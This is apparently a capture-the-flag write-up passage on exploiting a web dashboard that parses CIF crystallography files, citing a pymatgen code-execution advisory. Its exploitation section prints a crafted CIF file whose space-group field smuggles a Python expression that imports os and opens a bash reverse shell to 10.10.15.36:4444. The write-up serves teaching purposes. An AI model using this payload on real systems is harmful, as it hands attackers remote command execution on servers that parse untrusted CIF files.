 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020250109152606.png)

We can see that inside of our dashboard we can upload a `CIF` file, if we click to see the example, a file downloads automatically, let's check that file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250109152717.png)

It is an ascii file, it has these contents:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250109152744.png)

Searching on the web, we find that a CIF file has the following definition:

```ad-note
### CIF
----
Crystallographic Information File (CIF) is a standard text file format for representing crystallographic information, promulgated by the International Union of Crystallography (IUCr). CIF was developed by the IUCr Working Party on Crystallographic Information in an effort sponsored by the IUCr Commission on Crystallographic Data and the IUCr Commission on Journals. The file format was initially published by Hall, Allen, and Brown[1] and has since been revised, most recently versions 1.1 and 2.0.[2] Full specifications for the format are available at the IUCr website. Many computer programs for molecular viewing are compatible with this format, including Jmol. 
```

Nice, let's begin with exploitation.

# EXPLOITATION
---

We already know we have to deal with CIF files, let's search for some sort of exploit regarding those files:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250109152953.png)

Found an Arbitrary code execution, here's the repository: [here](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

In order to exploit this vulnerability, we need to reproduce the following steps:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.15.36/4444 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
